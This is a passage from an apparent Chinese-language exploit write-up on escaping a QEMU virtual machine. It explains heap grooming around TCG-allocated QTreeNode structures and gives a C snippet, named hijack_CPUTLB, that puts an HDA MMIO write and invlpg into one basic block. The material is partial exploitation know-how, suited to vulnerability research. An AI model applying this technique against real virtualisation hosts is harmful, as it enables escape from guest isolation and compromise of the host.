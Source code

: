 发现是在TCG翻译过程中申请的0x28大小的`QTreeNode`结构体。（详情见`补充知识 - Qemu TCG`）

为此，我们需要通过将触发堆活动的所有重要操作（`hda_mmio_write`和调用`invlpg`）一次性塞入一个[基本块](https://www.qemu.org/docs/master/devel/tcg-ops.html#basic-blocks)，避免在代码执行过程中产生新的`QTreeNode`分配堆块切分0x810的unsortedbin chunk。

> A TCG *basic block* is a single entry, multiple exit region which corresponds to a list of instructions terminated by a label, or any branch instruction.

```c
#define mmio_write64(mem, offset, value) { \
    (*(volatile uint64_t *)(mem + offset) = value); \
    __sync_synchronize(); \
}
#define invlpg() { \
    __asm__ volatile ( \
        "invlpg (%%rax)" \
        : \
        : "a" (HUGE_VA) \
        : "memory" \
    ); \
}

void hijack_CPUTLB() {
    mmio_write64(HDA_VA, ST_REG(2, ICH6_REG_SD_CTL), SD_CTL_DMA_START);
    invlpg();
}
```

编译后关键指令就在同一个BB中了：

<img src="./images/image-20250429100041873.png" alt="image-20250429100041873" style="zoom: 67%;" />
